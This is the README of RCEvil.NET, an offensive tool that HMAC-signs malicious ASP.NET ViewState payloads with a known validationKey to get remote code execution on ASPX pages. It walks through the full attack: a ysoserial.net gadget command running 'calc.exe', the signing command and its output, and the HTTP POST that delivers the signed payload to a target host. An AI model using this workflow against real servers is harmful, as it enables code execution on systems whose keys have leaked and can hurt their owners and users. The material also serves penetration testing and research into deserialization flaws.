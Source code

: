 RCEvil.NET
===

RCEvil.NET is a tool for signing malicious ViewStates with a known validationKey. Any (even empty) ASPX page is a valid target. See http://illuminopi.com/ for full details on the attack vector.

### Prerequisites

1. Visual Studio Community
   * https://visualstudio.microsoft.com/vs/community/
2. Local installation of ysoserial.net:
   * https://github.com/pwntester/ysoserial.net

### Usage

1. Build your payload in ysoserial.net: 
> ysoserial.exe -g TypeConfuseDelegate -f ObjectStateFormatter -o base64 -c "calc.exe"

2. Sign the payload using RCEvil.NET: 
> RCEvil.NET.exe -u [URL] -v [VALIDATION_KEY] -m [DIGEST_TYPE] -p [YSOSERIAL.NET_PAYLOAD]

3. Direct the payload to the target ASPX page

### Examples

Generate base payload in ysoserial.net:
> ysoserial.exe -g TypeConfuseDelegate -f ObjectStateFormatter -o base64 -c "calc.exe" /wEyxBEAAQAAAP////8...

Sign ysoserial.net payload with an HMAC using RCEvil.NET:
>>>
 RCEvil.NET.exe -u /Default.aspx -v 000102030405060708090a0b0c0d0e0f10111213 -m SHA1 -p /wEyxBEAAQAAAP////8...

 -=[ ViewState Toolset ]=-

 URL: /Default.aspx  
 Digest Algorithm: SHA1  
 ValidationKey: 000102030405060708090a0b0c0d0e0f10111213  
 Modifier: 34030bca

 -=[ Final Payload ]=-

 %2fwEyxBEAAQAAAP%2f%2f%2f%2f8BAAAAAAAAAAwC...
>>>

Finally, send the HMAC-signed ViewState payload to the target:
>>>
 POST /Default.aspx HTTP/1.1  
 Host: 192.168.112.148  
 Content-Type: application/x-www-form-urlencoded  
 Content-Length: 3072

 __VIEWSTATE=%2fwEyxBEAAQAAAP%2f%2f%2f%2f8BAAAAAAAAAAwC...
>>>
